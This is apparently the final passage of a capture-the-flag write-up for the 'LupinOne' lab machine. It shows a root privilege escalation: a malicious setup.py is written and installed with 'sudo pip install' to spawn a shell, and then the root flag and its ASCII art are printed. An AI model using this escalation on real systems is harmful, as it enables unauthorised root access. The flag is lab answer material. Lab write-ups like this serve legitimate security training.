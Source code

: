 I follow these steps and get root shell

```
arsene@LupinOne:~$ TF=$(mktemp -d)
arsene@LupinOne:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
arsene@LupinOne:~$ sudo pip install $TF
Processing /tmp/tmp.k6lOYVgZu0
# 
```

I cd to '/root/' and get the flag:

```
# cd /root
# ls
root.txt
# cat root.txt
*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,(((((((((((((((((((((,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
,                       .&&&&&&&&&(            /&&&&&&&&&                       
,                    &&&&&&*                          @&&&&&&                   
,                *&&&&&                                   &&&&&&                
,              &&&&&                                         &&&&&.             
,            &&&&                   ./#%@@&#,                   &&&&*           
,          &%&&          &&&&&&&&&&&**,**/&&(&&&&&&&&             &&&&          
,        &@(&        &&&&&&&&&&&&&&&.....,&&*&&&&&&&&&&             &&&&        
,      .& &          &&&&&&&&&&&&&&&      &&.&&&&&&&&&&               &%&       
,     @& &           &&&&&&&&&&&&&&&      && &&&&&&&&&&                @&&&     
,    &%((            &&&&&&&&&&&&&&&      && &&&&&&&&&&                 #&&&    
,   &#/*             &&&&&&&&&&&&&&&      && #&&&&&&&&&(                 (&&&   
,  %@ &              &&&&&&&&&&&&&&&      && ,&&&&&&&&&&                  /*&/  
,  & &               &&&&&&&&&&&&&&&      &&* &&&&&&&&&&                   & &  
, & &                &&&&&&&&&&&&&&&,     &&& &&&&&&&&&&(                   &,@ 
,.& #                #&&&&&&&&&&&&&&(     &&&.&&&&&&&&&&&                   & & 
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&             &(&
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&            & &
*& *              &&&&&&&&&&&&&&&&&&&@.                 &&&&&&&&             @ &
*&              &&&&&&&&&&&&&&&&&&@    &&&&&/          &&&&&&                & &
*% .           &&&&&&&&&&&@&&&&&&&   &  &&(  #&&&&   &&&&.                   % &
*& *            &&&&&&&&&&   /*      @%&%&&&&&&&&    &&&&,                   @ &
*& &               &&&&&&&           & &&&&&&&&&&     @&&&                   & &
*& &                    &&&&&        /   /&&&&         &&&                   & @
*/(,                      &&                            &                   / &.
* & &                     &&&       #             &&&&&&      @             & &.
* .% &                    &&&%&     &    @&&&&&&&&&.   %@&&*               ( @, 
/  & %                   .&&&&  &@ @                 &/                    @ &  
*   & @                  &&&&&&    &&.               ,                    & &   
*    & &               &&&&&&&&&& &    &&&(          &                   & &    
,     & %           &&&&&&&&&&&&&&&(       .&&&&&&&  &                  & &     
,      & .. &&&&&&&&&&&&&&&&&&&&&&&&&&&&*          &  &                & &      
,       #& & &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&        &.             %  &       
,         &  , &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.     &&&&          @ &*        
,           & ,, &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.  /&&&&&&&&    & &@          
,             &  & #&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&@ &. &&            
,               && /# /&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&# &&&# &# #&               
,                  &&  &( .&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&  &&                  
/                     ,&&(  &&%   *&&&&&&&&&&%   .&&&  /&&,                     
,                           &&&&&/...         .#&&&&#                           

3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}
See you on the next heist.
```
